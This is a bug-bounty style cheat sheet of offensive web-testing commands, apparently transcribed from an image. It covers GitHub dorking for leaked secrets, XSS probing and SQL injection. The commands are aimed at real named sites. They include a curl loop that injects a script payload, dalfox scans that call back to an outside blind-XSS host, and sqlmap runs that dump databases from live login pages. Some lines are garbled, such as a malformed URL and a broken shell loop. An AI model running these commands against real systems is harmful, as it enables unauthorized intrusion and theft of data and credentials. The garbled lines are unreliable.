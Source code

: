 
## Github Dorking on live-subs.txt :-

- git-Grabber :-
- python3 [gitGraber.py](http://gitgraber.py/) -k wordlists/keywords.txt -q "yahoo" -s
- python3 [gitGraber.py](http://gitgraber.py/) -k wordlists/keywords.txt -q \"[yahoo.com](http://yahoo.com/)\" -s
- python3 [gitGraber.py](http://gitgraber.py/) -k keywordsfile.txt -q \"[yahoo.com](http://yahoo.com/)\" -s -w mywordlist.txt
- GitHound

---

## Check-list :- Manual Hunting inside websites for :-

1- CSRF
2- IDORS
3- Bussiness Logic Vulnerbilities
4- API bugs
5- SQLi
6- XSS

---

## XSS :-

- Paramspider :-
- python3 [paramspider.py](http://paramspider.py/) --domain [indrive.com](http://indrive.com/)
- python3 [paramspider.py](http://paramspider.py/) --domain [https://cpcalendars.cartscity.com](https://cpcalendars.cartscity.com/) --exclude woff,css,js,png,svg,php,jpg --output g.txt
- cat indrive.txt | kxss ( looking for reflected :- "<> )

## Looking for Hidden parameters :-

- Arjun :-
- arjun -u https://44.75.33.22wms/wms.login -w burp-parameter-names.txt
- waybackurls [youneedabudget.com](http://youneedabudget.com/) | gf xss | grep '=' | qsreplace '"><script>confirm(1)</script>' | while read host do ; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)" && echo "$host \033[0;31mVulnerable\n";done
- dalfox url https://access.epam.com/auth/realms/plusx/protocol/openid-connect/auth?response_type=code -b [https://hahwul.xss.ht](https://hahwul.xss.ht/)
- dalfox file urls.txt -b [https://hahwul.xss.ht](https://hahwul.xss.ht/)
- echo "https://target.com/some.php?first=hello&last=world" | Gxss -c 100
- cat urls.txt | Gxss -c 100 -p XssReflected

---

## Sql Injection :-

- echo [https://www.recreation.gov](https://www.recreation.gov/) | waybackurls | grep "\?" | uro | httpx -silent > param.txt
- cat subdomains.txt | waybackurls | grep "\?" | uro | httpx -silent > param.txt
- sqlmap -m param.txt --batch --random-agent --level 1 | tee sqlmap.txt
- sqlmap -u https://my.easyname.at/en/login --dbs --forms --crawl=2

